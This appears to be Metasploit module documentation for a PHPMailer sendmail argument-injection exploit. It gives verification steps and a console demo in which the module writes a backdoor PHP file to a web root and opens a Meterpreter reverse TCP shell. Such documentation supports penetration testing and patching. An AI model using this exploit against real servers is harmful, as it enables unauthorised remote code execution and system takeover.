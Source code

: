 ## Vulnerable Application

PHPMailer versions up to and including [5.2.20](https://github.com/PHPMailer/PHPMailer/archive/v5.2.20.tar.gz) are affected by a vulnerability which can be leveraged by an attacker to
write a file with partially controlled contents to an arbitrary location through injection of arguments that are passed
to the sendmail binary. This module writes a payload to the web root of the webserver before then executing it with an
HTTP request. The user running PHPMailer must have write access to the specified WEB_ROOT directory and successful
exploitation can take a few minutes.

[5.1.18](https://github.com/PHPMailer/PHPMailer/archive/v5.2.18.tar.gz) is also targetted.

## Verification Steps

  1. Install a vulnerable PHPMailer
  2. Start msfconsole
  3. `use exploit/multi/http/phpmailer_arg_injection`
  4.  Set the TARGETURI and WEB_ROOT options as applicable
  5. `exploit`
  6.  Verify the module yields a PHP meterpreter session in < 5 minutes
  7.  Verify the malicious PHP file was automatically removed

## Scenarios

  Demo taken directly from [PR7768](https://github.com/rapid7/metasploit-framework/pull/7768)

```
msf (S:0 J:0) exploit(php_mailer) > options

Module options (exploit/linux/http/php_mailer):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST       192.168.90.134   yes       The target address
   RPORT       8080             yes       The target port
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       Path to the application root
   TRIGGERURI                   no        Path to the uploaded payload
   VHOST                        no        HTTP server virtual host
   WEB_ROOT    /www             yes       Path to the web root



Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.90.134   yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



msf (S:0 J:0) exploit(php_mailer) > rexploit
[*] Reloading module...

[*] [2016.12.29-17:03:47] Started reverse TCP handler on 192.168.90.134:4444
[*] [2016.12.29-17:03:47] Writing the backdoor to /www/0IxI5AFB.php
[*] [2016.12.29-17:04:07] Sleeping before requesting the written file
[*] [2016.12.29-17:04:07] Waiting for up to 300 seconds to trigger the payload
[+] [2016.12.29-17:04:48] Successfully found the payload
[*] [2016.12.29-17:05:50] Sending stage (34122 bytes) to 172.17.0.2
[*] Meterpreter session 4 opened (192.168.90.134:4444 -> 172.17.0.2:47280) at 2016-12-29 17:05:50 -0500
[+] [2016.12.29-17:05:50] Deleted /www/0IxI5AFB.php
[+] [2016.12.29-17:06:10] Successfully triggered the payload


meterpreter > sysinfo
Computer    : 90f0c8e8dbe4
OS          : Linux 90f0c8e8dbe4 4.8.15-200.fc24.x86_64 #1 SMP Thu Dec 15 23:09:22 UTC 2016 x86_64
Meterpreter : php/linux

meterpreter >
```
